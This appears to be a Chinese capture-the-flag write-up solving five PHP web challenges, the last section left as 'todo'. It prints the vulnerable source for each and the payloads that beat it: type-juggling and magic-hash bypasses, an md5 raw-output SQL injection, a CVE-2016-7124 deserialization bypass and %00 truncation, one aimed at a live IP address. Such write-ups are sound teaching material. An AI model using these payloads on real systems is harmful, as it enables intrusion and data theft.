

## 1 PHP入门

- 题目

```php
13YWxmb1Rzcnlmb1VoZH9UdWdrdmRzRXNg==
<?php

error_reporting(0);
require 'flag.php';
echo base64_encode(hex2bin(strrev(bin2hex($flag)))) . "<br>";

highlight_file(__FILE__);

?> 
```

`strrev` 函数功能为反转字符串。

站长工具不行，看不见不可见字符。在 ubuntu 内搭建 php 环境，做一下反向操作。

```bash
<?php
$f="13YWxmb1Rzcnlmb1VoZH9UdWdrdmRzRXNg==";
echo hex2bin(strrev(bin2hex(base64_decode($f))));
?>
```

 ## 2 今天睡够了么？

- 题目

```php
 <?php
error_reporting(0);
require 'flag.php';
if(isset($_GET['time'])){
    if(!is_numeric($_GET['time'])){
        echo 'The time must be number.';
    }else if($_GET['time'] < 60 * 60 * 24 * 30 * 2){
        echo 'This time is too short.';
    }else if($_GET['time'] > 60 * 60 * 24 * 30 * 3){
        echo 'This time is too long.';
    }else{
        sleep((int)$_GET['time']);
        echo $flag;
    }
    echo '<hr>';
}
highlight_file(__FILE__);
?> 
```
本题要求输入时数字，数字很大有区间限制。"0.6e7" 经过强制类型转换变为0。

```bash
60 * 60 * 24 * 30 * 2 = 5,184,000
60 * 60 * 24 * 30 * 3 = 7,776,000
找个中间大小的数字，6,000,000 = 6e 6 = 0.6e7

cuCtf{How_long_did_I_sleep?}
```



## 3 havefun,funhash

- 题目

```php
 <?php
include 'conn.php';
ini_set('display_errors', 'off');error_reporting(0);
highlight_file("index.php");

//level 1
if ($_GET["hash1"] != hash("md4", $_GET["hash1"]))
{
    die('level 1 failed');
}

//level 2
if($_GET['hash2'] === $_GET['hash3'] || md5($_GET['hash2']) !== md5($_GET['hash3']))
{
    die('level 2 failed');
}

//level 3
$query = "SELECT * FROM flag WHERE password = '" . md5($_GET["hash4"],true) . "'";
$result = $mysqli->query($query);
$row = $result->fetch_assoc();
var_dump($row);
$result->free();
$mysqli->close();

?> level 1 failed
```

2020 强网杯题目

- `$_GET["hash1"] != hash("md4", $_GET["hash1"]`

魔法哈西，0e251288019 md4 之后还是 0e 开头。

hash1=0e251288019

- `$_GET['hash2'] === $_GET['hash3'] || md5($_GET['hash2']) !== md5($_GET['hash3'])`

hash1=0e251288019&hash2[]=1&hash3[]=2

数组绕过类型和值的检查。

- `"SELECT * FROM flag WHERE password = '" . md5($_GET["hash4"],true) . "'"`

ffifydiop 经过md5加密后：276f722736c95d99e921722cf9ed621c

hash1=0e251288019&hash2[]=1&hash3[]=2&hash4=ffifydiop

翻译为字符串就是 `'or'66�]��!r,��b`

相当于 SELECT * FROM flag WHERE password = ''or 1

## 4 休息一下吧打工人

- 题目

  ```php
  Play brick games maybe more fun
  <?php
  error_reporting(0);
  
  class dagongren{
      public $a="hello";
  
      function __destruct()
      {   
          if($this->a === 'work'){
              show_source("flag");
              echo "<br>";
          }
          else{
              echo "Good night";
          }
      }
  
      function __wakeup()
      {
          $this->a = "sleep";
      }
  
      function check()
      {
          if($this->a=="work"){
              return TRUE;
          }
          else{
              return FALSE;
          }
      }
  }
  $KEY1 = "D0g3!!!";
  $str1 = $_GET['str1'];
  if (unserialize($str1) === "$KEY1")
  {
      $b = $_GET['str2'];
      $c = unserialize($b);
  }
  else{
      echo "Play brick games maybe more fun"."<br>";
  }
  show_source(__FILE__);
  ?> 
  ```

- 题解

  __wakeup() 函数在 unserialize 函数执行后会被调用。会强制讲变量赋值，需要绕过该函数。

  **CVE-2016-7124：当成员属性数目大于实际数目时可绕过wakeup方法**

  本地构建一个该类，生成序列化的对象，如下

  ```php
  <?php
  #$KEY1 = "D0g3!!!";
  #echo serialize($KEY1);
  
  class dagongren{
      public $a="work";
  
      function __destruct()
      {   
          if($this->a === 'work'){
              show_source("flag");
              echo "<br>";
          }
          else{
              echo "Good night";
          }
      }
  
      function __wakeup()
      {
          $this->a = "sleep";
      }
  
      function check()
      {
          if($this->a=="work"){
              return TRUE;
          }
          else{
              return FALSE;
          }
      }
  }
  $b = new dagongren();
  echo serialize($b);
  ?>
  
  ```

  
    ``` bash
  str1=s:7:"D0g3!!!";
  str2=O:9:"dagongren":1:{s:1:"a";s:4:"work";}
  # 组合一下，把类成员个数由1变为2
  str1=s:7:"D0g3!!!";&str2=O:9:"dagongren":2:{s:1:"a";s:4:"work";}
    ```

## 5 绕过练习

```php
 <?php
error_reporting(0);
highlight_file("index.php");
include "flag.php";
if (isset ($_GET['password'])) {
    if (ereg("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE) {
        echo 'You password must be alphanumeric';
    } else if (strlen($_GET['password']) < 8 && $_GET['password'] > 9999999) {
        if (strpos($_GET['password'], '*-*') !== FALSE) 
        {
            die('Flag: ' . $flag);
        } else {
            echo('- have not been found');
        }
    } else {
        echo 'Invalid password';
    }
}


http://81.70.159.127/Web5/index.php?password=1e7%00*-*
```

-  `ereg("^[a-zA-Z0-9]+$", $_GET['password'])`

  输入必须是字母数字，使用 `%00` 截断。

- `strlen($_GET['password']) < 8 && $_GET['password'] > 9999999  `

  科学计数法。

- `strpos($_GET['password'], '*-*') !== FALSE`

  输入中必须包含 `*-*` 字符。

## 6 todo

  